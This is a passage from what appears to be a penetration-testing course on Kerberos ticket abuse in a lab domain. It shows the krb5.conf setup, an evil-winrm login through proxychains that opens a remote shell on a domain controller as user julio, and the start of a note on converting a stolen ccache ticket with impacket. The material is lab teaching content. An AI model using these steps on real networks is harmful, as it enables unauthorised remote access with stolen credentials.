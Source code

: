 In case the package `krb5-user` is already installed, we need to change the configuration file `/etc/krb5.conf` to include the following values:

### **Kerberos Configuration File for INLANEFREIGHT.HTB**

```shell-session
$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
```

Now we can use evil-winrm.

### **Using Evil-WinRM with Kerberos**

```shell-session
$ proxychains evil-winrm -i dc01 -r inlanefreight.htb

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14

Evil-WinRM shell v3.3

Warning: Remote path completions are disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:5985  ...  OK
*Evil-WinRM* PS C:\Users\julio\Documents> whoami ; hostname
inlanefreight\julio
DC01
```

## Miscellaneous

If we want to use a `ccache file` in Windows or a `kirbi file` in a Linux machine, we can use [impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) to convert them. To use it, we specify the file we want to convert and the output filename. Let's convert Julio's ccache file to kirbi.
